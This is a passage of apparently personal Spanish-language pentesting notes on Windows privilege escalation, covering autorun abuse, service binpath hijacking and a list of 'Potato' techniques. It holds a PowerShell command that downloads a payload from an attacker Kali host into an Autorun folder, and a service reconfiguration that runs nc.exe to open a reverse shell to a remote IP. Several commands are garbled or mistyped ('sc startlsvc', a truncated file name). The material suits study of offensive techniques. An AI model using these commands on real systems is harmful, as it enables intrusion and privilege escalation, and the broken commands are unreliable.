 ```bash
powershell.exe -c "(New-Object Net.WebClient).downloadFile('http://<IP_KALI>:8000/program.exe','C:\Program Files\Autorun\program.ex')"
```

ahora debemos ponernos a la escuhca, cerrar la sesion y volver a iniciar.

reiniciamos el equipo windows

```bash
shutdown /r /t 0
```

## BINPATH

debemos ver los permisos que se tiene en los servicios que se estan corriendo en el equipo, el permiso **SERVICE_CHANGE_CONFIG** nos permitiria cambiar la propiedad **binpath** del servicio para poder colocar un comando a ejecutar, asi poder obtener un RCE.

Podemos listar los nombres de los sericios:

```bash
wmic service list full | findstr /r "^Name="
```

ahora con **accesschk.exe** debemos comprobar los permisos en cada uno:

```bash
accesschk.exe /accepteula -ucqv <usuario> <servicio>
```

De esta forma vemos los permisos de un servicio para un usuario en particular, si vemos que algunos tiene ese permiso en nuestro usuario o para todos, entonces modificamos el atributodel servicio:

digamos que el servicio **daclsvc** tiene ese permiso para nuestro usuario:

```bash
sc config daclsvc binpath= "C:\Users\user\Desktop\nc.exe 10.1.10.1 4545 -e cmd.exe"
```

nos colocamos a la esucha en ese puerto y ahora reiniciamos el servicio:

```bash
sc stop daclsvc

sc startlsvc
```

al iniciar se nos abrira una consolaen nuestro KALI.

## Las patatas (Potatos)

Existen diferentes papatas para escalar privilegios:

-   [Hot Potato](https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html#hotPotato)
-   [Rotten Potato](https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html#rottenPotato)
-   [Lonely Potato](https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html#lonelyPotato)
-   [Juicy Potato](https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html#juicyPotato)
-   [Rogue Potato](https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html#roguePotato)
